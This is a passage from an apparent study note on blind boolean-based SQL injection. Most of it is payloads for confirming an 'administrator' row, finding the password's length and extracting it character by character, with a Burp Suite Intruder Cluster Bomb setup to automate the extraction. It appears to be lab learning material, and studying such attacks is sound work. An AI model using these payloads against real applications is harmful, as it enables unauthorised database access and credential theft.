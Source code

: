 - 'x' act has a dummy variable (simply mean if the TABLE_NAME exist, then make the qury = x) If the table exist then 'x' = 'x'-- (True Statement ---> Display default message)


**Find Column Name ???**
```

```


Find a Variable in a Column
```
wQzpcksV9nxMDwHH' and (select Column_Name from Table_Name where Column_Name_same_has_the_other_one='administrator')='administrator'--'
```

- Column_Name                     ---> The Column Name that we are looking to get the variable
- Table_Name                         ---> Table Name that we are interested in (see previous step)
- Column_Name_same...        ---> Same Column Name has the one selected
- administrator                       ---> Variable we are looking to find (True = Default HTML Resp)


Length of Variable (ex: password of administator account)
```
wQzpcksV9nxMDwHH' and (select Column_Name from Table_Name where Column_Name_same...='administrator' and LENGTH(password)>20)='administrator'--'
```

- Column_Name                    ---> The Column Name that we are looking to get the variable
- Table_Name                        ---> Table Name that we are interested in (see previous step)
- Column_Name_same...       ---> Same Column Name has the one selected
- administrator                       ---> Variable we are looking to find (True = Default HTML Resp)
- password                             ---> Second Column (looking length variable for user administator)

- <,>,>=,<=
- Possible also to change the number to determine the length of the variable


Enumeration of Varaible (ex: password of administator account)
```
wQzpcksV9nxMDwHH' and (select substring(Column_Name_PASSWORD,2,1) from Table_Name where Column_Name='administrator')='a'--'
```

- Column_Name_PASSWORD  ---> The Column we are interested to enumerate
	- (Column_Name_PASSWORD,2,1)  ---> 2,1 (2 = character we are trying to guest, 1 = Length of the letter (a) we are trying to guest... (probably always 1.. we guest 1 letter at the time))
- Column_Name                        ---> The Column Name that we are looking to get the variable
- Table_Name                            ---> Table Name that we are interested in (see previous step)
- Column_Name_same...           ---> Same Column Name has the one selected
- administrator                           ---> Variable we are looking to find (True = Default HTML Resp)

- BurpSuite
	- Proxy the request
	- Send the request to intruder and add the § between the number after Column_Name_PASSWORD and between the letter we are tying to guest (a)
	```
	wQzpcksV9nxMDwHH' and (select substring(Column_Name_PASSWORD,§2§,1) from Table_Name where Column_Name='administrator')='§a§'--'
	```
	- Set the attack to Cluster Bomb and load the payloads
